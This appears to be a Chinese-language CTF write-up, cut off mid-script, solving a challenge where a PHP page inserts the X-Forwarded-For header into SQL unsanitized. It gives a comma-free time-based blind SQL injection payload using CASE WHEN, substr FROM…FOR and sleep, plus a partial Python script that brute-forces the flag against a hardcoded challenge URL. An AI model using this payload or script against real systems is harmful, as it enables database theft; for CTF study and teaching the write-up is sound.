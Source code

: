 ```
<?php
error_reporting(0);

function getIp(){
$ip = '';
if(isset($_SERVER['HTTP_X_FORWARDED_FOR'])){
$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];     
}else{
$ip = $_SERVER['REMOTE_ADDR'];      
}
$ip_arr = explode(',', $ip);        
return $ip_arr[0];

}

$host="localhost";
$user="";
$pass="";
$db="";

$connect = mysql_connect($host, $user, $pass) or die("Unable to connect");

mysql_select_db($db) or die("Unable to select database");

$ip = getIp();
echo 'your ip is :'.$ip;
$sql="insert into client_ip (ip) values ('$ip')";       
mysql_query($sql);
?> 
```

很明显，这是一道过滤了逗号的 XFF 注入题目。由于返回结果无有效回显，可以进行时间盲注。在过滤了逗号的情况下，我们就不能使用if语句了，在mysql中与if有相同功效的就是：

```
select case when (条件) then 代码1 else 代码 2 end; 
```

而且由于逗号被过滤，我们就不能使用substr、substring了，但我们可以使用：from 1 for 1，所以最终我们的payload如下：

```
127.0.0.1'+(select case when substr((select flag from flag) from 1 for 1)='a' then sleep(5) else 0 end))-- + 
```

**python脚本：**

```
 import requests
import sys

sql = "127.0.0.1'+(select case when substr((select flag from flag) from {0} for 1)='{1}' then sleep(5) else 0 end))-- +"
url = 'http://123.206.87.240:8002/web15/'
flag = ''
for i in range(1, 40):
    print('正在猜测：', str(i))
    for ch in range(32, 129):
        if ch == 128:
            sys.exit(0)
        sqli = sql.format(i, chr(ch))

        header = {
            'X-Forwarded-For': sqli
        }
        try:
            html = requests.get(url, headers=header, timeout=3)
        except:
```